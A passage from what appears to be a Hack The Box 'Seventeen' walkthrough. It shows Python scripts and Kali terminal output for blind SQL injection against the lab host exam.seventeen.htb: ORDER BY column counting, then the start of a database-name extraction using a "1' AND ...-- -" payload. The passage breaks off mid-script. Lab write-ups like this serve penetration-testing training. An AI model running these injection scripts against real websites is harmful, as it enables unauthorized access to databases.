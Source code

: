 ```python
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def detect_column_count():
    print("[*] Starting column count detection using ORDER BY...")
    for column_count in range(1, MAX_COLUMNS_TO_TEST + 1):
        if is_column_count_valid(column_count):
            print(f"[+] ORDER BY {column_count} → valid")
        else:
            print(f"[!] ORDER BY {column_count} → failed. Estimated number of columns: {column_count - 1}")
            return column_count - 1
    print(f"[!] All {MAX_COLUMNS_TO_TEST} ORDER BY tests were valid. The number of columns may be higher.")
    return MAX_COLUMNS_TO_TEST

if __name__ == "__main__":
    column_count = detect_column_count()
    print(f"\n[✔] Final estimated number of columns: {column_count}"
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_find_n_columns.py 
[*] Starting column count detection using ORDER BY...
[+] ORDER BY 1 → valid
[+] ORDER BY 2 → valid
[+] ORDER BY 3 → valid
[+] ORDER BY 4 → valid
[+] ORDER BY 5 → valid
[+] ORDER BY 6 → valid
[+] ORDER BY 7 → valid
[+] ORDER BY 8 → valid
[+] ORDER BY 9 → valid
[+] ORDER BY 10 → valid
[+] ORDER BY 11 → valid
[!] ORDER BY 12 → failed. Estimated number of columns: 11

[✔] Final estimated number of columns: 11
```


##### Find DB name

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_db_name.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
MAX_DB_LENGTH = 50  # 최대 길이 시도

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_database_length():
```